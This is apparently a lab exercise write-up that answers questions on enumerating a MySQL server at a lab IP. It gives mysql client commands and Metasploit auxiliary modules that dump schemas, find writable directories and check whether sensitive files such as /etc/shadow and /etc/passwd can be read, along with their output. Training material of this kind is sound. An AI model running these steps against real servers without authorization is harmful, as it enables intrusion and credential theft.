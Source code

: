 ```
```
   
2.  What command is used to connect to remote MySQL database?
   
```
mysql -h 192.117.106.3
```
   
3.  How many databases are present on the database server?
   
```
show databases;  

11 databases
```
   
4.  How many records are present in table “authors”? This table is present inside the “books” database.
   
```
show databases; 
use books; 
select * from authors ; 

10 records
```
   
5.  Dump the schema of all databases from the server using suitable metasploit module?
   
```
auxiliary(scanner/mysql/mysql_schemadump)
set USERNAME root 
exploit 

[+] 192.117.106.3:3306    - Schema stored in: /root/.msf4/loot/20240716013208_default_192.117.106.3_mysql_schema_169294.txt
```
   
6.  How many directories present in the /usr/share/metasploit-framework/data/wordlists/directory.txt, are writable? List the names.
   
```
auxiliary(scanner/mysql/mysql_writable_dirs)
set DIR_LIST /usr/share/metasploit-framework/data/wordlists/directory.txt
exploit

/tmp, /root, are writeable

```
   
7.  How many of sensitive files present in /usr/share/metasploit-framework/data/wordlists/sensitive_files.txt are readable? List the names.
   
```
auxiliary(scanner/mysql/mysql_file_enum)
set FILE_LIST /usr/share/metasploit-framework/data/wordlists/sensitive_files.txt
exploit

[+] 192.117.106.3:3306    - /etc/passwd is a file and exists
[+] 192.117.106.3:3306    - /etc/shadow is a file and exists
[+] 192.117.106.3:3306    - /etc/group is a file and exists
[+] 192.117.106.3:3306    - /etc/mysql/my.cnf is a file and exists
[+] 192.117.106.3:3306    - /etc/hosts is a file and exists
[+] 192.117.106.3:3306    - /etc/hosts.allow is a file and exists
[+] 192.117.106.3:3306    - /etc/hosts.deny is a file and exists
[+] 192.117.106.3:3306    - /etc/issue is a file and exists
[+] 192.117.106.3:3306    - /etc/fstab is a file and exists
[+] 192.117.106.3:3306    - /proc/version is a file and exists
```
   